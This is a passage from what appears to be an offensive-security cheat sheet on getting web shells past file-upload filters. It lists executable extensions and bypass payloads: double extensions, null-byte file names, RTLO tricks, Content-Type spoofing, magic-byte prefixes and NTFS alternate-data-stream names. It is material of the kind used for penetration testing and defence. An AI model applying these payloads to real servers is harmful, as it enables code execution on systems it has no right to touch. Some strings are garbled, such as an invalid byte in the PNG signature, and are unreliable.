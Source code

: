     .config
    .cer and .asa # (IIS <= 7.5)
    shell.aspx;1.jpg # (IIS < 7.0)
    shell.soap
    ```
* JSP : `.jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action`s
* Perl: `.pl, .pm, .cgi, .lib`
* Coldfusion: `.cfm, .cfml, .cfc, .dbm`

### Upload tricks

- Use double extensions : `.jpg.php, .png.php5`
- Use reverse double extension (useful to exploit Apache misconfigurations where anything with extension .php, but not necessarily ending in .php will execute code): `.php.jpg`
- Random uppercase and lowercase : `.pHp, .pHP5, .PhAr`
- Null byte (works well against `pathinfo()`)
    * `.php%00.gif`
    * `.php\x00.gif`
    * `.php%00.png`
    * `.php\x00.png`
    * `.php%00.jpg`
    * `.php\x00.jpg`
- Special characters
    * Multiple dots : `file.php......` , in Windows when a file is created with dots at the end those will be removed.
    * Whitespace and new line characters
        * `file.php%20`
        * `file.php%0d%0a.jpg`
        * `file.php%0a`
    * Right to Left Override (RTLO): `name.%E2%80%AEphp.jpg` will became `name.gpj.php`.
    * Slash: `file.php/`, `file.php.\`, `file.j\sp`, `file.j/sp`
    * Multiple special characters: `file.jsp/././././.`
- Mime type, change `Content-Type : application/x-php` or `Content-Type : application/octet-stream` to `Content-Type : image/gif`
    * `Content-Type : image/gif`
    * `Content-Type : image/png`
    * `Content-Type : image/jpeg`
    * Content-Type wordlist: [SecLists/content-type.txt](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt)
    * Set the Content-Type twice: once for unallowed type and once for allowed.
- [Magic Bytes](https://en.wikipedia.org/wiki/List_of_file_signatures)
    * Sometimes applications identify file types based on their first signature bytes. Adding/replacing them in a file might trick the application.
        * PNG: `\x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03[`
        * JPG: `\xff\xd8\xff`
        * GIF: `GIF87a` OR `GIF8;`
    * Shell can also be added in the metadata
- Using NTFS alternate data stream (ADS) in Windows. In this case, a colon character ":" will be inserted after a forbidden extension and before a permitted one. As a result, an empty file with the forbidden extension will be created on the server (e.g. "`file.asax:.jpg`"). This file might be edited later using other techniques such as using its short filename. The "::$data" pattern can also be used to create non-empty files. Therefore, adding a dot character after this pattern might also be useful to bypass further restrictions (.e.g. "`file.asp::$data.`")
